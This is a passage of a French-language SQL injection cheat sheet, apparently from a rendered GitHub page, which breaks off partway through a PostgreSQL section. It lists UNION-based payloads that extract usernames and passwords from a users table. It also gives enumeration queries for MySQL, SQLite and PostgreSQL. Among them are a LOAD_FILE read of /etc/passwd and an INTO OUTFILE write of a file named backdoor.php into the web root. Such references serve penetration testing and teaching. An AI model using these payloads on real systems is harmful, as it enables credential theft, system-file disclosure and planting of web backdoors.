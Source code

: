 ```
# Récupérer les noms d'utilisateurs
username=alice' UNION SELECT 1, username FROM users -- 

# Récupérer les mots de passe
username=alice' UNION SELECT 1, password FROM users -- 

# Récupérer plusieurs colonnes
username=alice' UNION SELECT username, password FROM users -- 
```

#### Commandes SQL utiles par SGBD

##### MySQL

```sql
-- Version
SELECT @@version

-- Base de données courante
SELECT database()

-- Lister les bases de données
SELECT schema_name FROM information_schema.schemata

-- Lister les tables
SELECT table_name FROM information_schema.tables WHERE table_schema='nom_base'

-- Lister les colonnes
SELECT column_name FROM information_schema.columns WHERE table_name='nom_table'

-- Lire un fichier (si les permissions le permettent)
SELECT LOAD_FILE('/etc/passwd')

-- Écrire dans un fichier (si les permissions le permettent)
SELECT 'contenu' INTO OUTFILE '/var/www/html/backdoor.php'
```

##### SQLite

```sql
-- Version
SELECT sqlite_version();

-- Lister les tables
SELECT name FROM sqlite_master WHERE type='table'

-- Lister les colonnes
PRAGMA table_info(nom_table)
```

##### PostgreSQL

```sql
-- Version
SELECT version();

-- Base de données courante
SELECT current_database();

-- Lister les bases de données
SELECT datname FROM pg_database;

-- Lister les tables
SELECT table_name FROM information_schema.tables WHERE table_schema='public';

-- Lister les colonnes
```